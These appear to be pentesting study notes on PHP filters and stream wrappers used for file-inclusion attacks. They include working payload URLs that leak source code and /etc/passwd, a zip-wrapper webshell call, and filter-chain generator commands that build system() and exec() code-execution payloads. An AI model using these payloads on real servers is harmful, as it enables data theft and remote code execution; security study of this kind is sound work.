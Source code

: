 # PHP Filters

PHP Filters are a powerful wrappers of lots a functionality that take input and perform operations on it without developer having to write in-house checks, filters, etc against common input to website.
- [Validation Filters perform type and pattern checks](https://www.php.net/manual/en/filter.filters.validate.php)
- [Sanitization Filters perform string operations to modify unsafe input](https://www.php.net/manual/en/filter.filters.sanitize.php)
- [Only other is "callback" where all flags are ignored](https://www.php.net/manual/en/filter.filters.misc.php)
- [PHP Filter flags](https://www.php.net/manual/en/filter.filters.flags.php) provides developers to filter by builtin conditions-on-passed-input, encode the input.

Use cases in Hacking
```php
// base64 encode to bypass filters
?php://filter/convert.base64-encode/resource=$file

// code execution - requires `allow_url_include`
?php://data/text/plain,$urlencodePhpcode
```

- File inclusion vulnerabilities can exists due to how PHP filters are used with `include()`.
- PHP servers are vulnerable to RFI (Remote [[File-Inclusion]]) if the `allow_url_include` it set
- If [[HTML]] tags are missing and PHP is executing on the server we can use PHP filters to add `?php://filter/convert.base64-encode/resource=$CURRENTPAGE.php` to potential return the executed PHP back

#### BEWARE - PHP Filters may automatically append .php

Be aware that `php://filter` is a stream wrapper and how you are abusing `php://filters` maybe affected by source code; for example:
- Appending a file extension by default
- Checking what files are being streamed 

[LFI / RFI using PHP://filters](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers)
```php
// only php://filter is case insensitive
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index
// unzip a .zip file that you have uploaded to the server somehow and execute a webshell 
http://example.com/index.php?file=zip:/var/www/html/exploit.zip%23cmd.php&cmd=whoami

// They can be chained together with:
// | or /
// Beware this probably wont work as .php may be appended
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
// base64encode only for limit exfil - buffer size 8192 bytes


```
- [PHP Documentation base64encode](https://www.php.net/manual/en/function.base64-encode.php)
- [Filter Chains can used to chain encodings till a desired payload - yikes](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)
	- Generate PHP filter chains with [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
	- Junk characters do end up appended to the end
- [LFI2RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI2RCE.py)
- Consider [Hacktricks improvements on a Alles CTF script to get LFI2RCE via PHP filter](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]);?>'
```
No `system` no problem
```bash
python3 php_filter_chain_generator.py --chain '<?= exec($_GET[0]); ?>'
```

## References

[LFI / RFI using PHP://filters](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers)
[PHP Documentation base64encode](https://www.php.net/manual/en/function.base64-encode.php)
[Filter Chains Usage by Synacktiv](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html) [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
[LFI2RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI2RCE.py)
[Hacktricks improvements on a Alles CTF script to get LFI2RCE via PHP filter](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
[Validation Filters](https://www.php.net/manual/en/filter.filters.validate.php)
[Sanitization Filters](https://www.php.net/manual/en/filter.filters.sanitize.php)
[Misc Filters](https://www.php.net/manual/en/filter.filters.misc.php)
[PHP Filter flags](https://www.php.net/manual/en/filter.filters.flags.php) 

